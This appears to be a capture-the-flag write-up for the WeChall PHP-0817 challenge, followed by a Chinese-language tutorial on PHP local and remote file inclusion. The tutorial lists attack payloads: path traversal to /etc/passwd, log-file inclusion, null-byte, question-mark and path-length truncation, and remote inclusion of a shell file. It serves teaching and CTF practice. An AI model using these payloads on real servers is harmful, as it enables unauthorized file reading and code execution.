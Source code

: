 # PHP-0817 Exploit

I have written another include system for my dynamic webpages, but it seems to be vulnerable to LFI.
Here is the code:

```php
<?php
if (isset($_GET['which']))
{
        $which = $_GET['which'];
        switch ($which)
        {
        case 0:
        case 1:
        case 2:
                require_once $which.'.php';
                break;
        default:
                echo GWF_HTML::error('PHP-0817', 'Hacker NoNoNo!', false);
                break;
        }
}
?>
```
Your mission is to include [solution.php](http://www.wechall.net/challenge/php0817/solution.php).
Here is the script in action: [News](http://www.wechall.net/challenge/php0817/index.php?which=0), [Forum](http://www.wechall.net/challenge/php0817/index.php?which=1), [Guestbook](http://www.wechall.net/challenge/php0817/index.php?which=2).

## LFI
本地文件包含漏洞[LFI: Local FIle Inclusion](http://gynvael.coldwind.pl/download.php?f=PHP_LFI_rfc1867_temporary_files.pdf)

&ensp;&ensp;&ensp;&ensp;文件包含通常又有本地文件包含（Local File Inclusion）和远程文件包含(Remote File Inclusion)之分。`allow_url_fopen`和`allow_url_include`是决定包含属于本地文件包含（LFI）还是远程文件包含 （RFI）的条件，在PHP4中则只有一个`allow_url_fopen`选择。其中`allow_url_fopen`和 `allow_url_include`为0n的情况为远程文件包含漏洞，相反为本地文件包含漏洞。

文件包含漏洞有以下几种格式：

### 1. 基本的本地文件包含
```php
<?php 
        include("includes/" . $_GET['file']); 
?>
```
漏洞利用方法：

 - 直接引用当前目录下的文件`?file=.htaccess`
 - 便利目录`?file=../../../../../../../../../etc/passwd`
 - 包含注入的php代码文件。`?file=../../../../../../../../../var/log/apache/error.log`
 - [其他路径文件](http://wiki.apache.org/httpd/DistrosDefaultLayout)

[暴走无双官网文件包含可泄漏服务源码](http://www.wooyun.org/bugs/wooyun-2010-054964)

### 2. 需要截断的文件包含
漏洞代码：
```php
include("$_GET('dir')/test.php")
```
要想利用文件包含就要突破后面test.php的限制。要实现截断有三种方法：

#### 2.1 %00 截断（`Magic_quote_gpc`为off的情况下）
例子：http://127.0.0.1/include.php?dir=shell.txt%00

[PHPYun本地文件包含造成任意代码执行](http://www.wooyun.org/bugs/wooyun-2010-042144)

[彩乐乐彩票网存在本地文件包含漏洞](http://www.wooyun.org/bugs/wooyun-2010-052112)

### 2.2 使用？截断（用于远程文件包含） 

例子：http://127.0.0.1/include.php?dir=http://127.0.0.1/shell.txt?

例子：http://127.0.0.1/include.php?dir=http://127.0.0.1/shell.txt%23

### 2.3 通过使路径长度达到一定长度限制时截断(均适用)
通常Windows的截断长度为240，Linux的截断长度为4096。由于Windows和Linux的文件名都有一个最大路径长度(MAX_PATH)的限制，因此当提交文件名的长度超过了最大路劲长度限制是就会截断后面的内容，从而达到文件包含的效果。

[至顶网某站点任意文件读取导致敏感信息泄漏(截断技巧)](http://www.wooyun.org/bugs/wooyun-2010-052704)

### 2.4 点号截断（当`magic_quote_gpc`为off的时候，仅限windowns服务器）

例子：http://127.0.0.1/include.php?dir=../../../../ect/passwd……………………………………………………………………[很多的.]


## Solution
直接访问：http://www.wechall.net/challenge/php0817/index.php?which=solution









